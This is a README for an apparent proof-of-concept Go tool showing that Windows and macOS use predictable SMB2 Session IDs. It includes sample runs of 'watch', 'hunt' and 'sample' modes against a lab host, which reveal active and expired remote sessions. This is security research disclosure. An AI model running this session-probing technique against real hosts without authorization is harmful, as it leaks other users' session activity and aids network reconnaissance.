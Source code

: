 # SMB2 Predictable Session ID Demonstration

Microsoft Windows and Apple macOS use predictable Session IDs for SMB2 sessions. This code
demonstrates how to predict these IDs and determine some information about remote sessions.

Please see this blog post for more information:

- https://www.rumble.run/2020/03/smb2-session-prediction-consequences/

On Windows the Signature field of the returned SESSION_SETUP response is signed with the
original remote session key. This seems bad, but doesn't appear to be exploitable, as the
input to this key includes a client and server challenge (among other fields), that are
not visible as a remote third-party.

On macOS (10.15) the smbd Session ID increments by 1, which leaks session activity, but SMB bind
requests fail and no information about the active sessions is obtained.

The predictable session IDs have been in place for years and seem to be a design choice.

On Samba-based systems, the session IDs are not predictable.

The session binding and signature calculation process is well-documented:
 - Handle of session binding requests: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/5ed93f06-a1d2-4837-8954-fa8b833c2654
 - Signature calculation: https://docs.microsoft.com/en-us/archive/blogs/openspecification/smb-2-and-smb-3-security-in-windows-10-the-anatomy-of-signing-and-cryptographic-keys


## Remote Session Monitoring

```
$ go run main.go 192.168.0.220 watch

2020/03/28 16:16:31 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6054627286627 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c328000002d smb.Signing:enabled smb.Status:0xc0000016]

2020/03/28 16:16:48 192.168.0.220: cycle found after 205 requests: fffffffffffffffc-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffd4-fffffffffffffff0-18-14-fffffffffc00001c-fffffffff8000014-bffffc4-4-fffffffff8000028-ffffffffd000001c-37ffffb4-1c-fffffffffc000034-ffffffffc3ffffa8-40000030-c-fffffffff8000008-7fffffc-ffffffd6cfffffd4-2930000038-ffffffffebffffd0-14000034-3ffff8c-8-4-ffffffff5c000038-a3ffffd4        

2020/03/28 16:16:48 192.168.0.220: watching for new sessions...
2020/03/28 16:16:54 192.168.0.220: SESSION 0x00002c329c000011 is EXPIRED 
2020/03/28 16:16:59 192.168.0.220: SESSION 0x00002c329c000031 is ACTIVE dialect:0x0311 sig:526ec3d5a65947888677c43fee02604f
2020/03/28 16:17:03 192.168.0.220: SESSION 0x00002c329c000049 is EXPIRED 
```

## Remote Session Hunting

```
$ go run main.go 192.168.0.220 hunt

2020/03/29 21:47:21 192.168.0.220: warning: hunt mode is unreliable and unlikely to find older sessions

2020/03/29 21:47:21 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d88af7af5 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3880000069 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:23 192.168.0.220: cycle found after 129 requests: ffffffffc8000014-37ffffe8-ffffffd6cfffffd8-2930000038-ffffffffebffffd0-14000034-3ffff8c-ffffffff5c000044-a3ffffc4-10-fffffffffffffff4-8-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffc4-10-1c-fffffffffc00001c-3ffffdc-fffffffff8000028-7ffffd4-fffffffffffffffc-1c-ffffffffffffffe0-fffffffffc000054-ffffffffc3ffffa8-34000048-bffffe8-fffffffff8000014-7fffffc
2020/03/29 21:47:23 192.168.0.220: hunting for existing sessions...
2020/03/29 21:47:25 192.168.0.220: sent 1000 requests (2c37e4000041)
```

## Remote Session ID Sampling

```
$ go run main.go 192.168.0.220 sample

2020/03/29 21:47:50 192.168.0.220: sample 100 session IDs for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d9a0b8f3e ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3898000061 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:50 0x00002c3898000061
2020/03/29 21:47:50 0x00002c0f68000039
2020/03/29 21:47:50 0x00002c3898000071
2020/03/29 21:47:50 0x00002c3884000041
2020/03/29 21:47:50 0x00002c3898000075
2020/03/29 21:47:50 0x00002c389c000001
2020/03/29 21:47:50 0x00002c37f8000045
```